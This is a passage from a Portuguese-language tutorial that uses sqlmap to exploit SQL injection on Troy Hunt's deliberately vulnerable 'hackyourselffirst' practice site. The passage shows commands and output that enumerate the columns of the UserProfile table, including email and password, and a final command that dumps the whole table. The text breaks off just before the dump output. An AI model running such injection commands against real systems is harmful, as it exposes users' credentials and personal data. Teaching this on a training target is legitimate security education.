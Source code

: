 ```
| webpages_OAuthMembership     |
| webpages_Roles               |
| webpages_UsersInRoles        |
| sys.database_firewall_rules  |
| sys.script_deployment_status |
| sys.script_deployments       |
+------------------------------+
```

Vamos selecionar uma tabela com informações sensitivas, que costumam ser as mais vulneráveis para as empresas porque contém informações de clientes. A tabela `UserProfile` parece ser promissora!

```bash
./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" -D hackyourselffirst_db -T UserProfile --columns
```

E, como esperado, essa tabela contém informações relevantes dos usuários:

```
[08:33:21] [INFO] retrieved: Email
[08:33:21] [INFO] retrieved: nvarchar
[08:33:22] [INFO] retrieved: FirstName
[08:33:23] [INFO] retrieved: nvarchar
[08:33:23] [INFO] retrieved: IsAdmin
[08:33:24] [INFO] retrieved: bit
[08:33:24] [INFO] retrieved: LastName
[08:33:25] [INFO] retrieved: nvarchar
[08:33:26] [INFO] retrieved: Password
[08:33:26] [INFO] retrieved: nvarchar
[08:33:27] [INFO] retrieved: UserId
[08:33:27] [INFO] retrieved: int
Database: hackyourselffirst_db
Table: UserProfile
[6 columns]
+-----------+----------+
| Column    | Type     |
+-----------+----------+
| Email     | nvarchar |
| FirstName | nvarchar |
| IsAdmin   | bit      |
| LastName  | nvarchar |
| Password  | nvarchar |
| UserId    | int      |
+-----------+----------+
```

Por fim, vamos fazer um dump de toda a tabela de usuários (porque não?):

```bash
./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" -D hackyourselffirst_db -T UserProfile --dump 
```

E toda a tabela agora é nossa:
